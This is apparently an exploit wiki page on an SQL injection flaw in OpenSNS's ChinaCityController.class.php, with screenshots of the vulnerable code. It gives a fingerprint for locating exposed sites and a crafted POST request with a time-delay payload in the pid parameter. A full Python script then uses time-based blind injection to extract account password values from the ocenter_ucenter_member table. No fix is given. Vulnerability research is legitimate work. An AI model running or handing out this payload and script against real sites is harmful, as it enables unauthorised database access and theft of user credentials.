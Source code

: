 # OpenSNS ChinaCityController.class.php SQL injection vulnerability

## Vulnerability Description

In the OpenSNS ChinaCityController.class.php file, you can execute any SQL commands by splicing SQL statements to obtain the user account password.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OpenSNS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1167011145"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc.png)

The file with vulnerability is `Addons/ChinaCity/Controller/ChinaCityController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634530581898-96bfb012-9b06-4000-8688-3f60e59fe5af.png)

The user-controllable parameters are cid and pid, and the SQL statement is viewed through debugging.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634530661937-f8552b8b-a5c2-4633-9cef-e20b31154085.png)

Constructing requests to close SQL statements, causing SQL injection

```php
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634531129827-a6c0bd01-e6e8-41a8-a7aa-0d0349843d9e.png)

Through dichotomous delay injection, you can get the user account password and log in to the background

```php
import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634531377138-0fc38dc3-684c-41d1-a3bb-974274f025fd.png)